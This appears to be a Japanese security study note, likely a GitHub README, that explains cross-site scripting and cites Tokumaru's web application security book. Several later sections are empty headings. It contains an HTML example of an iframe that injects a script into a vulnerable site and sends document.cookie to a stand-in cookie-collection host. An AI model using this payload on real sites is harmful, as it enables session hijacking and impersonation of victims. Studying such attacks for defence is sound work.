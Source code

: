 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによってクッキー値や利用者の個人情報（クレジットカード情報など）が盗まれるといった影響が生じる。

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- 罠サイトにターゲット がアクセスすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

```html
<html>
  <body>
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

### JavaScript による XSS

#### React で発生するケース

### 他の攻撃との比較

#### CSRF との違い

#### セッションハイジャックとの違い

#### フィッシングとの違い

### XSS によるセキュリティインシデントの実例

## 参考

安全な Web アプリケーションの作り方 第 2 版 徳丸浩
